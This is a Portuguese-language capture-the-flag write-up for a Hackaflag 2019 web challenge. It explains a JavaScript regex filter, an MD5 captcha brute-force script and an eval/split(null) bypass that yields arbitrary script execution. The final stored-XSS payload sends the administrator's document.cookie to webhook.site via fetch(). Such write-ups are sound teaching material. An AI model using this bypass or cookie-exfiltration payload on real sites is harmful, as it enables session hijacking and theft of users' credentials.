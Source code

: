 # Reminder

- Desafio da etapa de Goiânia do Hackaflag 2019
- Data do desafio: 2019-06-01
- Categoria: web
- URL original: `http://68.183.31.62:3232/`

Ao acessar a URL do desafio, encontramos uma página com um campo `textarea` e um botão que carrega a mesma página, inserindo o conteúdo do campo anterior no parâmetro `data` da URL. Também temos um link para a página `/contact`.

## Página inicial

No código-fonte da página inicial, temos os seguintes trechos JavaScript:

```html
<script type="text/javascript">
	window.onload=function(){
		if(!window.localStorage.getItem('data')){
			var t = location.search;
			if(/<([a-z])/i.test(unescape(JSON.parse('"'+decodeURIComponent(location.search.split("=")[1])+'"')))){
				var text = 'undefined';
			}else{
				window.localStorage.setItem('data',decodeURIComponent(location.search.split('=')[1]));
			}
		}
	}
</script>
<script id="message"></script>
<a href="contact">contact</a>
<script>
	function inMessage(message){
		regex = /^[a-z.()]+$/;

		if(regex.test(message)){
			var ms = document.getElementById('message');
    		console.log(ms);
			ms.innerHTML=unescape(message);
		}
	}

	function x(){
		var t;
		return t = {},
		window.location.search.replace("?","").split("&").forEach(function(e){
			var n;
			return n = e.split("="),
			t[n[0]] = n[1];
		}), t.message ? inMessage(t.message) : void 0
	}

	onload=function(){ x(); }
</script>
```

O primeiro trecho cria uma função que manipula o `localStorage` e atribui essa função ao método `window.onload`, que é executado quando a página termina de carregar. No entanto, o final do último trecho também sobrescreve o método `onload` (omitindo o objeto `window`), por isso a primeira função criada nunca é executada. Podemos ignorar este trecho do código.

A função `x` será executada ao carregar a página. Resumidamente, se houver um parâmetro na URL chamado `message`, a função `inMessage` será executada com `message` como argumento.

A função `inMessage` realiza um teste de expressão regular para a variável `message` e, caso a variável contenha apenas letras minúsculas e os caracteres `(`, `)` e `.`, o conteúdo será inserido na tag com id `message` (que convenientemente é uma tag `script`). Se carregarmos a página com o parâmetro `?message=alert()`, verificamos que o código é executado. No entanto, se inserirmos `?message=alert(1)`, o código não é executado porque o caractere `1` não passa no teste de expressão regular.

## Página `contact`

A página `/contact` apresenta um formulário com dois campos: um captcha e uma URL. Além do formulário, há uma string hexadecimal aleatória de 4 caracteres. O código-fonte dá a dica para resolver o captcha: `<!-- substr(md5(string),0,4) == 62d7 -->`, isto é, os 4 primeiros caracteres do hash MD5 do captcha devem ser iguais à string apresentada na página.

Por se tratar de apenas 4 caracteres hexadecimais, há apenas 16<sup>4</sup> = 65536 possibilidades, então é fácil encontrar uma colisão parcial. Este script em Python itera de 1 a 1000000 até achar um resultado compatível.

```python
import sys
import hashlib

if len(sys.argv) < 2:
	print('Missing argument')

for i in range(1, 1000000):
	m = hashlib.md5()
	m.update(str(i).encode('utf-8'))
	h = m.hexdigest()[:4]
	if h == sys.argv[1][:4]:
		print(str(i) + ' - ' + h)
		break
```

Ao executar `python hash.py 62d7` obtemos o valor `11528`, que deve ser inserido no campo de captcha.

Com o captcha válido, a requisição é enviada com sucesso. Ao enviar alguma URL, obtemos a mensagem "O admin ira ver sua mensagem em breve bla bla bla...". Esta mensagem, juntamente com o código JavaScript da página inicial, sugere que é possível realizar um ataque de stored XSS para obter os cookies da sessão do administrador.

## Payload

Agora, o desafio é criar um código JavaScript que obtenha os cookies da sessão e que passe no teste da expressão regular. Não podemos fazer isso diretamente porque a expressão regular `/^[a-z.()]+$/` é muito restritiva, portanto precisamos contornar este teste. Uma função útil é a `eval`, que recebe uma string e a interpreta como JavaScript; se o parâmetro `message` for igual a `eval(location.search)`, o código executado será `?message=eval(location.search)`, que não é JavaScript válido, mas nos dá um ponto de partida. Podemos adicionar um segundo parâmetro `?message=eval(location.search)&bypass=alert("Hello!")` e tentar executá-lo mudando apenas o argumento de `eval` seguindo as limitações da expressão regular.

Podemos usar o método `split` para dividir a string, mas não podemos colocar uma string como argumento porque o caractere `"` não passaria no teste de expressão regular. Entretanto, o método `split` converte outros tipos para string, e nós podemos fazer algumas manipulações para obter apenas a parte da string que nos interessa.

- o método `split(x)` divide uma string em um array de strings separados pela variável `x` convertida para string;
- se nenhum argumento for passado, `split` retorna um array contendo a string original;
- o método `split(null)` converterá a constante `null` para a string `"null"` e retornará um array de strings separadas pela string `"null"`;
- `?message=eval(location.search.split(null))&bypass=nullalert("Hello")` retornará o array `["?message=eval(location.search.split(null))&bypass=", "alert(%22Hello%22)"]`;
- para mudar as aspas de `%22` para `"`, devemos utilizar a função `unescape`;
- para obter o segundo elemento do array, basta usarmos o método `pop`;
- `?message=eval(unescape(location.search.split(null).pop()))&bypass=nullalert("Hello")` retornará a string `"alert("Hello")"`, que é exatamente o que queremos.

O separador não deve aparecer no código a ser injetado. Por exemplo, `?message=eval(unescape(location.search.split(null).pop()))&bypass=nullalert("this is null")` retornará a string `")` porque há uma segunda ocorrência da string `null`.

É possível utilizar outros separadores:

- a propriedade estática `length` retorna 1 (não sei por quê, só sei que [é assim](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/length));
- `window.name.length` retorna 0;
- `location.search.length` retorna o tamanho de `location.search`, que pode ser facilmente incrementado;
- `window.name.includes()` retorna `false`;
- `window.name.includes(window.name)` retorna `true`.

Agora podemos executar (quase) qualquer código JavaScript, sem restrição de caracteres.

Em um ataque real, como não saberíamos quando um administrador executaria o código, seria necessário ter um servidor que armazenasse as requisições enviadas. Para testes e CTFs, podemos utilizar um serviço como http://webhook.site. Este site gera uma URL com um ID aleatório no formato `http://webhook.site/{id}` e as requisições feitas para esta URL podem ser monitoradas pelo link `http://webhook.site/#!/{id}` (atenção para o acréscimo de `#!` na URL).

O comando `fetch("http://webhook.site/{id}?cookie=" + document.cookie)` insere os cookies como parâmetros de URL, que poderão ser observados pelo link anterior.

O payload final será `http://68.183.31.62:3232/?message=eval(unescape(location.search.split(null).pop()))&bypass=nullfetch("http://webhook.site/{id}?data=" + document.cookie)` e, ao enviá-lo e verificar as chamadas realizadas, encontramos o parâmetro `data=token%3DHACKAFLAG%7Bgr34t_p4yl04d_n0%3F%7D`. Usando a função `unescape`, obtemos a flag `HACKAFLAG{gr34t_p4yl04d_n0?}`.
